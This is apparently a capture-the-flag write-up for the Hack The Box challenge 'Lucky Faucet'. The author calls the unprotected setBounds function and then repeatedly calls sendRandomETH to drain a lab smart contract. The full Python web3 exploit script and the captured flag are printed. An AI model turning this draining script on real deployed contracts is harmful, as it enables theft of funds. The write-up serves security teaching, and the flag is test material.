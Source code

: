 # Lucky Faucet

> Difficulty: Easy
>
> The Fray announced the placement of a faucet along the path for adventurers who can overcome the initial challenges. It's designed to provide enough resources for all players, with the hope that someone won't monopolize it, leaving none for others.

Solution:

We are given with two files:
1. `Setup.sol`
2. `LuckyFaucet.sol`

![image](1.png)

Two `IP:PORT` were provided as well which is for the RPC and netcat to interact with the challenge

Based on the code, the goal here should make the smart contract's balance less than or equal to 490. To do that, we should call `sendRandomETH()` so it can send us ETH.

I can't exactly pinpoint but something is funky with the `lowerbound`, so I thought we can maximize the randomness by setting the `lowerBound` to 1 using `setBounds` (so via `setBounds(1,100000000)`).

Before creating the Python script, let's get the ABI first using https://remix.ethereum.org/ again

![image](2.png)

And retrieve the target contract address as well as the private key

![image](3.png)

Alright, so we should:
1. Send a transaction to do `setBounds(1,100000000)`
2. Set the initial smart contract balance `targetContractBalance = web3.from_wei(web3.eth.get_balance(targetContractAddress), 'ether')`
3. Use a while loop to call `sendRandomETH()` if the balance is still >= 490

```python
from web3 import Web3
from pwn import *
import time
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

# Connect to HTB's Ethereum node
htbRPC = 'http://94.237.56.118:46365/'
web3 = Web3(Web3.HTTPProvider(htbRPC))

# Setting up account
privateKey = 'redacted'
account = web3.eth.account.from_key(privateKey)

# Challenge contract address
targetContractAddress = Web3.to_checksum_address('0x79b010b04C1cfa11E262f2D04eeCfcE4dAba5854')

# Contract ABI from Remix
contractABI = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "lowerBound",
		"outputs": [
			{
				"internalType": "int64",
				"name": "",
				"type": "int64"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "sendRandomETH",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			},
			{
				"internalType": "uint64",
				"name": "",
				"type": "uint64"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [
			{
				"internalType": "int64",
				"name": "_newLowerBound",
				"type": "int64"
			},
			{
				"internalType": "int64",
				"name": "_newUpperBound",
				"type": "int64"
			}
		],
		"name": "setBounds",
		"outputs": [],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "upperBound",
		"outputs": [
			{
				"internalType": "int64",
				"name": "",
				"type": "int64"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
]

# Create the contract instance
contract = web3.eth.contract(address=targetContractAddress, abi=contractABI)

def sendTx():
    # Estimate gas to call sendRandomETH
    gasEstimate = contract.functions.sendRandomETH().estimate_gas({'from': account.address})

    # Prepare the transaction to call sendRandomETH
    transaction = contract.functions.sendRandomETH().build_transaction({
        'from': account.address,
        'nonce': web3.eth.get_transaction_count(account.address),
        'gas': gasEstimate,
        'gasPrice': web3.eth.gas_price
    })

    # Sign the transaction
    signedTxn = web3.eth.account.sign_transaction(transaction, private_key=privateKey)

    # Send the transaction
    txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)

    # Wait for the transaction receipt
    txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)

    print(f'sendRandomETH transaction successful with hash: {txnReceipt.transactionHash.hex()}')

###########################################################

# Estimate gas to call setBounds
gasEstimate = contract.functions.setBounds(1,100000000).estimate_gas({'from': account.address})

# Prepare the transaction to call setBounds
transaction = contract.functions.setBounds(1,100000000).build_transaction({
	'from': account.address,
	'nonce': web3.eth.get_transaction_count(account.address),
	'gas': gasEstimate,
	'gasPrice': web3.eth.gas_price
})

# Sign the transaction
signedTxn = web3.eth.account.sign_transaction(transaction, private_key=privateKey)

# Send the transaction
txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)

# Wait for the transaction receipt
txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)

print(f'manipulateBounds transaction successful with hash: {txnReceipt.transactionHash.hex()}')

###########################################################

# Retrieve the target contract's balance
targetContractBalance = web3.from_wei(web3.eth.get_balance(targetContractAddress), 'ether')
print(f"Target contract's balance: {targetContractBalance}")

# Requirement is less than or equal to 490 ETH
while targetContractBalance >= 490:
	sendTx()
	time.sleep(1)
	targetContractBalance = web3.from_wei(web3.eth.get_balance(targetContractAddress), 'ether')
	print(f"Target contract's balance: {targetContractBalance}")

print('Retrieving flag')
conn = remote('94.237.56.118', 40051)
conn.sendlineafter('action? ', '3')
print(conn.recvline().decode())
conn.close()
```

Let's run it!

![image](4.png)

Boom!

Flag: `HTB{1_f0rg0r_s0m3_U}`
